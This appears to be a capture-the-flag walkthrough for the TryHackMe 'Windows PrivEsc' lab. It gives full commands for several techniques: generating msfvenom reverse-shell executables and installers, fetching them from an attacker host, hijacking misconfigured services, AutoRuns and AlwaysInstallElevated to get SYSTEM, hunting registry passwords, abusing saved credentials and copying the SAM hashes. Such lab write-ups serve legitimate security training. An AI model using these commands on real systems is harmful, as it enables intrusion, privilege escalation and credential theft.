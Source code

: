 # [Windows PrivEsc](https://tryhackme.com/room/windows10privesc)

> Practice your Windows Privilege Escalation skills on an intentionally misconfigured Windows VM with multiple ways to get admin/SYSTEM! RDP is available. Credentials: user:password321

## Generate a Reverse Shell Executable

generate a reverse shell executable using msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.37.45 LPORT=4444 -f exe -o reverse.exe
python3 -m http.server
```

on windows 10 machine

```
curl 10.18.37.45:8000/reverse.exe -o reverse.exe
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ca36fef7-fb30-490d-8cdb-4fe80ecec0cb)

## Service Exploits - Insecure Service Permissions

use accesschk.exe to check the "user" account's permissions on the "daclsvc" service

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

note that we has permission to change the service config

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cdd9f8be-06ee-4513-b18b-bf311c967c12)

query the service

```
sc qc daclsvc
```

note that it runs with LocalSystem privileges

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eb5d8b44-0830-4cfa-9e3a-8b93afdd8f80)

modify the service config and set the binpath to our reverse.exe

```
sc config daclsvc binpath= "\"C:\Users\user\Desktop\reverse.exe\""
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/023a38cd-e46f-48c1-8614-e8e629e976d2)

now, start another listener and run the service

```
net start daclsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/91c0d9a0-94ac-4a53-8691-ce418f0e2b4a)

## Service Exploits - Unquoted Service Path

query the "unquotedsvc" service

```
sc qc unquotedsvc
```

note that it runs with LocalSystem privileges and the BINARY_PATH_NAME is unquoted and contains spaces

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/34461819-21a8-415e-8566-083fb8eb5668)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

note that BUILTIN\Users group is allowed to write

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f9aba4f4-9ef4-4a1d-a984-3cda2a0fd070)

```
copy C:\Users\user\Desktop\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

now, start another listener and run the service

```
net start unquotedsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/518160aa-d719-4c3b-8961-037ebbc33ae6)

## Service Exploits - Weak Registry Permissions

query the "regsvc" service

```
sc qc regsvc
```

note that it runs with LocalSystem privileges

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0a5e87d3-6d01-4c5d-b1de-fe393e466218)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

note that the registry entry is writable by the "NT AUTHORITY\INTERACTIVE" group (all logged-on users)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5a20f6c2-18ac-4b45-8404-0335708a97b5)

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\user\Desktop\reverse.exe /f
```

now, start another listener and run the service

```
net start regsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/87705866-e9a3-4327-9fd0-4025d328f153)

## Service Exploits - Insecure Service Executables

query the "filepermsvc" service

```
sc qc filepermsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c3810a93-cdbd-4144-a6c7-6aafd41c868a)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

note that the service binary is writable by everyone

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/619bd38f-9453-440f-962f-4b2303cbbc16)

```
copy C:\Users\user\Desktop\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

now, start another listener and run the service

```
net start filepermsvc
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/182af3cc-1af3-4f1a-a5e5-41b0767732df)

## Registry - AutoRuns

query the registry for AutoRun executables

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b66179b8-83b7-49a1-a37c-056eba3c1167)

using accesschk.exe again

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

note that the AutoRun program is writable by everyone

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/aff2109d-c318-4d27-9965-3baaeba7fb6e)

```
copy C:\Users\user\Desktop\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

now, start another listener

restart the windows machine and login again to trigger reverse shell

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/115afb27-1031-4e2b-a42e-fbd2028149ec)

## Registry - AlwaysInstallElevated

query the registry for AlwaysInstallElevated keys

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

note that both keys are set to 1 (0x1)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/da181abc-1d73-414d-9b59-87fba7aa82a0)

generate a reverse shell Windows Installer using msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.37.45 LPORT=4444 -f msi -o reverse.msi
python3 -m http.server
```

on windows 10 machine

```
curl 10.18.37.45:8000/reverse.msi -o reverse.msi
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/966f35ff-328e-4c31-bb7e-695b4391c664)

now, start another listener and run the service

```
msiexec /quiet /qn /i C:\Users\user\Desktop\reverse.msi
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3f5294ba-8d77-4ab0-ab36-69d687fbda40)

## Passwords - Registry

before this step, admin account need login with admin:password123

sometimes registry can be searched for keys and values that contain the word "password"

```
reg query HKLM /f password /t REG_SZ /s
```

or query this specific key to find admin AutoLogon credentials

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0b385b15-c413-431a-b8fa-28b012f22ac3)

## Passwords - Saved Creds

list any saved credentials

```
cmdkey /list
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ab934362-fc78-448c-9e8b-2cab5fa44a1a)

now, start another listener and run the service

```
runas /savecred /user:admin C:\Users\admin\Desktop\reverse.exe
```

## Passwords - Security Account Manager (SAM)

the SAM and SYSTEM files can be used to extract user password hashes

transfer the SAM and SYSTEM files to our machine

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c715c4f7-7f5c-46cb-9b45-dc036341e29b)































